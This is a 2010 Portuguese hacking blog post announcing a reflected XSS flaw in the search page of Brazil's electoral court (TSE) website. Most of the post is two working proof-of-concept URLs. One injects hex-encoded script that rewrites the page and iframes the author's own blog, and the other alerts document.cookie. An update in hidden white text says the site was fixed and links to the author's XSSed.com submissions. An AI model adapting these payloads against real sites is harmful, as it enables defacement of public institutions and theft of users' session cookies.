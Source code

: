```yaml
---
layout: default
title: Rapidinha - TSE XSS
date: 2010-09-12 21:45
author: brennords
comments: true
categories: [Hacking]
---
```

Navegando por acaso no site do <a href="http://www.tse.gov.br/" target="_blank">Tribunal Superior Eleitora</a>l, encontrei uma falha que permite ataques do tipo XSS (já que estamos perto da eleição, bem que posso ganhar alguma fama por isso né?), resolvi postar por postar, e porque estou escrevendo um texto, sobre como tirar todo potencial desse tipo de falha, fazendo mais do que simplesmente exibir uma msgbox na tela, enfim, ai vai the proof of concept:

<a href="http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%74%69%74%6C%65%3D%22%54%53%45%20%58%53%53%65%64%22%3B%76%61%72%20%70%61%67%65%3D%22%3C%6D%61%72%71%75%65%65%3E%3C%68%31%3E%3C%63%65%6E%74%65%72%3E%42%72%65%6E%6E%30%3C%2F%68%31%3E%3C%2F%63%65%6E%74%65%72%3E%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%62%72%65%6E%6E%30%2E%77%6F%72%64%70%72%65%73%73%2E%63%6F%6D%3E%3C%2F%6D%61%72%71%75%65%65%3E%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%69%6E%6E%65%72%48%54%4D%4C%3D%70%61%67%65%3B%61%6C%65%72%74%28%22%58%53%53%22%29%3B%3C%2F%73%63%72%69%70%74%3E" target="_blank">http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced"%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%74%69%74%6C%65%3D%22%54%53%45%20%58%53%53%65%64%22%3B%76%61%72%20%70%61%67%65%3D%22%3C%6D%61%72%71%75%65%65%3E%3C%68%31%3E%3C%63%65%6E%74%65%72%3E%42%72%65%6E%6E%30%3C%2F%68%31%3E%3C%2F%63%65%6E%74%65%72%3E%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%62%72%65%6E%6E%30%2E%77%6F%72%64%70%72%65%73%73%2E%63%6F%6D%3E%3C%2F%6D%61%72%71%75%65%65%3E%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%69%6E%6E%65%72%48%54%4D%4C%3D%70%61%67%65%3B%61%6C%65%72%74%28%22%58%53%53%22%29%3B%3C%2F%73%63%72%69%70%74%3E</a>

ou simplesmente:

<a href="http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E" target="_blank">http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E</a>

<span style="color:#ffffff;">Update 15/09/2010</span>

<span style="color:#ffffff;">A falha foi corrigida mais rápido do que eu imaginava, como minhas provas não funcionam mais, só resta esperar a turma do XSSed.com validar e postar um mirror, <a title="Xssed - Brenn0" href="http://www.xssed.com/search?key=Brenn0" target="_blank">nesse link aqui </a>você encontra os sites vulneráveis a XSS que eu submeti aos arquivos do site, brevemente o do TRE também estará lá.</span>

<strong>=*</strong>
